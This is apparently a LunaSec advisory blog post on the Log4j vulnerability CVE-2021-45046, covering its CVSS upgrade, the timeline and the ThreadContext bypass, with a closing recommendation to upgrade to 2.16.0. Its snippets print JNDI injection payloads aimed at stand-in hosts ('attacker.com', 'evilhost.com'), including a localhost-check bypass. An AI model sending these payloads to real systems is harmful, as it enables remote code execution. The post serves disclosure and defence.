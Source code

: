 ```yaml
---
title: "Log4Shell Update: Severity Upgraded 3.7 -> 9.0 for Second log4j Vulnerability (CVE-2021-45046)"
description: The second Log4j vulnerability was upgraded from a CVSS score of 3.7x (limited DOS) to a CVSS score of 9.7 (limited RCE), and we explain the impact.
slug: log4j-zero-day-severity-of-cve-2021-45046-increased
date: 2021-12-17
image: https://www.lunasec.io/docs/img/log4shell-keeps-coming.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors:
- name: Free Wortley
  title: CEO at LunaSec
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zero-day, security, data-security, data-breaches, guides]
- name: Chris Thompson
  title: Developer at Lunasec
  url: https://github.com/breadchris
  image_url: https://github.com/breadchris.png
- name: Forrest Allison
  title: Developer at LunaSec
  url: https://github.com/factoidforrest
  image_url: https://github.com/factoidforrest.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-keeps-coming.png)

_The logo gets worse as the situation gets worse..._

Earlier today, the second Log4j vulnerability (CVE-2021-45046) was upgraded from a [CVSS score of 3.7](https://web.archive.org/web/20211215180723/https://logging.apache.org/log4j/2.x/security.html)
(limited DOS) to a [CVSS score of 9.0](https://logging.apache.org/log4j/2.x/security.html) (limited RCE). Note: the reported
limited RCE has only been proven to be exploitable on macOS at the moment. We expect, in time, that other operating systems
will also be shown to be exploitable.

See the bottom of this post for an example exploit payload that bypasses the checks in log4j 2.15.0.

**Just trying to patch Log4Shell? Please read our dedicated
[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).**

## Context on CVE Timeline

The Log4j team had previously released version 2.15.0 on December 6th to address, which at the time had only been
privately disclosed, the Log4Shell vulnerability that abused JNDI and LDAP to allow for an easily exploitable RCE
vulnerability. We posted a
[blog post](https://www.lunasec.io/docs/blog/log4j-zero-day/) about this new RCE that, at the time, was only being posted
about by the Chinese InfoSec community on December 9th, 2021. This post made the broader InfoSec community aware of the
ongoing exploitation and resulted in a frenzy as Java developers worked to patch themselves.

The following day, on December 10th, an official CVE was associated with this RCE vulnerability as
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) with the maximum possible CVSS score of
10.0.

In the days afterwards, it was realized that this fix was incomplete as bypasses were found that could result in a
limited DOS for 2.15.0 users and, for users that had patched older Log4j releases using `formatMsgNoLookups`, these
bypasses could be used to allow for limited RCE.

Version 2.16.0 was released on December 13th to address the vulnerabilities by completely disabling JNDI by default.
The next day, on December 14th, the second vulnerability was officially given a dedicated CVE numbered CVE-2021-45046
with a limited 3.7 (now 9.0).

In this post, we're going to talk about the impact of these changes and why the CVSS score has changed so drastically.

<!--truncate-->

## Understanding the new Bypass

With more attention on Log4j library now from the security community, we have seen security researchers digging into the
source code of this project. @pwntester [announced on Twitter](https://twitter.com/pwntester/status/1471465662975561734)
that there is a possible RCE still present in 2.15.0, under certain conditions.

> 2.15 with no formatMsgNoLookups mitigations is still vulnerable to RCE. 2.15.0 w/o those mitigations is vulnerable only
if attackers can control non-message parts of the pattern layout. Just to make it clear 2.15.0 disables message text lookups
by default, users need to enable them explicitly in the patterns with %m{lookups}. So mitigations are in place by default in 2.15.0

Version 2.15.0 was released in order to prevent RCE by only allowing LDAP connections to local addresses by default. This
development for the CVE means that there exists a bypass to these newly added security measures. Not everyone who has updated
to 2.15.0 is vulnerable to RCE as it requires a specific logging configuration. Since the `formatMsgNoLookups` property
is on by default in 2.15.0, to be vulnerable to this RCE, message text lookups must be manually enabled with `%m{lookups}`.

However, there even still are other ways in which a message lookup can take place. Some examples are discussed on the Log4j
security page:

> The reason these measures are insufficient is that, in addition to the Thread Context attack vector mentioned above,
there are still code paths in Log4j where message lookups could occur: known examples are applications that use
Logger.printf("%s", userInput), or applications that use a custom message factory, where the resulting messages do not
implement StringBuilderFormattable. There may be other attack vectors.

To summarize, 2.15.0 introduced changes to prevent remote connections in a message lookup (ie. a connection to `attacker.com`
will be blocked in: `${jndi:ldap://attacker.com/a}`), as well as disabled message lookups when logging by default:

```
String attackerData = "${jndi:ldap://attacker.com/a}";

// Message lookups are blocked in this log statement. Payload will not fire by default.
logger.info("Log string, but no lookup will happen: " + attackerData);
```

These changes were still not enough to prevent message lookups by default as there are other places in code where this could take place:

```
// Put attacker controlled data in
ThreadContext.put("layout-pattern-value", attackerData);
```

An example `log4j2.properties` file might look something like:

```
# The attacker data, "${jndi:ldap://attacker.com/a}", will be attempted to be looked up
appender.console.layout.pattern = ${ctx:layout-pattern-value} - %d{yyyy-MM-dd HH:mm:ss} %-5p %c{1}:%L - %m%n
```

However, since only local connections were allowed in 2.15.0, the impact of this vulnerability were minimal.
The most impactful way to exploit this vulnerability was to have `String attackerData = "${ctx:layout-pattern-value"`
which would result in a recursive reference in the lookup. With the reported bypass of the restrictive remote connection
list, a full RCE is possible in the above code as we can access `attacker.com` now.

It is strongly recommended that you update to 2.16.0, even if you have previously updated to 2.15.0, to mitigate these
new bypasses.

## Update: The localhost Bypass was Discovered!

It was [posted](https://twitter.com/marcioalm/status/1471740771581652995) on Twitter by Márcio Almeida early on
December 17th.

This payload will bypass the network host restrictions in log4j 2.15.0 and allow full RCE again:
```
${jndi:ldap://127.0.0.1#evilhost.com:1389/a}
```

As noted in the security report, a proof of concept exploit has only been successfully executed on macOS. Considering
how many Java developers may use macOS, this is still a significant finding.

We are still investigating how to have this exploit work properly on other operating systems. It has been proposed that
[changing the default provider](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E)
to `dns,sun`:

```
System.setProperty("http://sun.net.spi.nameservice.provider.1", "dns,sun")
```

will cause the exploit to bypass the allowed hosts check in `2.15.0` properly. However, we have not been able to replicate
this yet.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Additional Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**,
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**,
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**,
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-17-log4j-update-increased-cvss.mdx).
:::

### Edits

1. Added a note that the RCE has only been provably exploitable on macOS
